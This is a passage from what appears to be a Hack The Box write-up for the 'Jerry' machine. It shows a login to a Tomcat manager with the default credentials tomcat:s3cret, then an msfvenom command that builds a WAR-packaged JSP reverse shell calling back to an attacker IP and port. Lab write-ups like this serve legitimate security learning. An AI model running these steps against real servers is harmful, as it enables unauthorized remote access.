 Check the default creds for `tomcat`

![](/assets/obsidian/5e1a198693c732c2a610027bf83a8106.png)

Open a new private window from firefox (Since there was no cookie data, so that's the way to switch user)

Successfully login with `tomcat`:`s3cret`, now I can manage applications

![](/assets/obsidian/1e5fdd9cb736597f1c8e1347427fe4d8.png)


### Upload war reverse shell

```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.13 LPORT=1111 -f war > rev.war
Payload size: 1101 bytes
Final size of war file: 1101 bytes
```

It's basically just a jsp webshell in a zip file with required directory name and `web.xml` config file

```bash
┌──(bravosec㉿fsociety)-[~/htb/Jerry]
└─$ unzip -l rev.war
Archive:  rev.war
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2023-09-26 20:57   WEB-INF/
      265  2023-09-26 20:57   WEB-INF/web.xml
     1497  2023-09-26 20:57   pzmsvuuktltroj.jsp
---------                     -------
     1762                     3 files
```
